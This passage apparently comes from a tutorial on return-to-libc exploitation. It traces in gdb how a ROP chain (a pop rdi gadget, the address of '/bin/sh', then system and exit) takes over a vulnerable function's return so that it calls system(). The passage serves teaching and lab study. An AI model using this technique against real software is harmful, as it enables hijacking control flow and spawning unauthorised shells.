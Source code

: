 ```bash
(gdb) disas cp
...
   0x000000000040116e <+56>:    retq
(gdb) b *cp+56
(gdb) r < pl.bin
```

The stack now looks like this:

```
(gdb) x/32xb $rsp
0x7fffffffd658: 0x03    0x12    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffd660: 0x19    0xf5    0xf6    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffd668: 0x30    0x3e    0xe2    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffd670: 0x19    0xf5    0xf6    0xf7    0xff    0x7f    0x00    0x00
```

On top is our gadget's address, followed by the address of the string, system and exit.

Let's move along and see what happens.

```bash
(gdb) disp/i $pc
1: x/i $pc
=> 0x40116e <cp+56>:    retq
(gdb) si
0x0000000000401203 in __libc_csu_init ()
1: x/i $pc
=> 0x401203 <__libc_csu_init+99>:       pop    %rdi
(gdb) si
0x0000000000401204 in __libc_csu_init ()
1: x/i $pc
=> 0x401204 <__libc_csu_init+100>:      retq
```

> We use `display/i $pc` to diplay the next instruction every time the program stops.

Let's confirm that the address of the string is in `rdi` and continue:

```bash
(gdb) x/s $rdi
0x7ffff7f6f519: "/bin/sh"
(gdb) si
0x00007ffff7e2ec30 in system () from /lib64/libc.so.6
1: x/i $pc
=> 0x7ffff7e2ec30 <system>:     endbr64
```

We are now in `system()`! We will continue to see if a shell pops.

```bash
(gdb) c
Continuing.
[Detaching after fork from child process 11941]
[Inferior 1 (process 11934) exited with code 02]
```

